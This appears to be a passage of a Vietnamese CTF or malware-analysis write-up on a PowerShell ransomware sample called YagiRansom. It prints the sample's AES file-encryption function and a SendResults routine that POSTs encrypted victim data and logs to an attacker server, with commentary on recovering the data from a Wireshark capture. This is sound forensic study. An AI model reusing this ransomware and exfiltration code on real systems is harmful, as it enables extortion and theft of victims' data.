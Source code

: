 ```
function Invoke-AESEncryption {
   [CmdletBinding()]
   [OutputType([string])]
   Param(
       [Parameter(Mandatory = $true)]
       [String]$Key,
       [Parameter(Mandatory = $true, ParameterSetName = "CryptText")]
       [String]$Text,
       [Parameter(Mandatory = $true, ParameterSetName = "CryptFile")]
       [String]$Path)
   Begin {
      $m95I = New-Object System.Security.Cryptography.SHA256Managed
      $n9ibn = New-Object System.Security.Cryptography.AesManaged
      $n9ibn.Mode = [System.Security.Cryptography.CipherMode]::CBC
      $n9ibn.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
      $n9ibn.BlockSize = 128
      $n9ibn.KeySize = 256 }
   Process {
      $n9ibn.Key = $m95I.ComputeHash([System.Text.Encoding]::UTF8.GetBytes($Key))
      if ($Text) {$plainBytes = [System.Text.Encoding]::UTF8.GetBytes($Text)}
      if ($Path) {
         $File = Get-Item -Path $Path -ErrorAction SilentlyContinue
         if (!$File.FullName) { break }
         $plainBytes = [System.IO.File]::ReadAllBytes($File.FullName)
         $outPath = $File.FullName + ".enc" }
      $encryptor = $n9ibn.CreateEncryptor()
      $encryptedBytes = $encryptor.TransformFinalBlock($plainBytes, 0, $plainBytes.Length)
      $encryptedBytes = $n9ibn.IV + $encryptedBytes
      $n9ibn.Dispose()
      if ($Text) {return [System.Convert]::ToBase64String($encryptedBytes)}
      if ($Path) {
         [System.IO.File]::WriteAllBytes($outPath, $encryptedBytes)
         (Get-Item $outPath).LastWriteTime = $File.LastWriteTime }}
  End {
      $m95I.Dispose()
      $n9ibn.Dispose()}}
```
- Hàm này là hàm mã hoá theo tiêu chuẩn AES sử dụng key đầu vào là 1 chuỗi được mã hoá sha256 mục đích để đảm bảo độ dài
- IV có thể được lấy từ 16 byte đầu tiên của dữ liệu đầu ra
```
function SendResults {
   $cvf = Invoke-AESEncryption -Key $Uz19o -Text $WiETm ; $cVl = R64Encoder -t $cvf
   $2YngY = "> $cVl > $OgE > $zVSza > $7VEq"
   $RansomLogs = Get-Content "$Directory$slash$I26" | Select-String "[!]" | Select-String "YagiRansom!" -NotMatch
   $XoX = R64Encoder -t $2YngY ; $B64Logs = R64Encoder -t $RansomLogs
   Invoke-WebRequest -useb "$7CiB`:$UFX/data" -Method POST -Body $XoX 2>&1> $null
   Invoke-WebRequest -useb "$7CiB`:$UFX/logs" -Method POST -Body $B64Logs 2>&1> $null }
```
- Mình sẽ lấy thằng `"> $cVl > $OgE > $zVSza > $7VEq"` ra trước để tiện cho việc xử lý dữ liệu sau này.
- Chuỗi này được lưu trong biến `$2YngY`, biến `$2YngY` được sử dụng trong hàm `R64Encoder` đã nói ở trên và gửi yêu cầu POST lên máy chủ với endpoint là /data
- Dựa vào luồng stream 0 của wireshark để trích xuất nó ra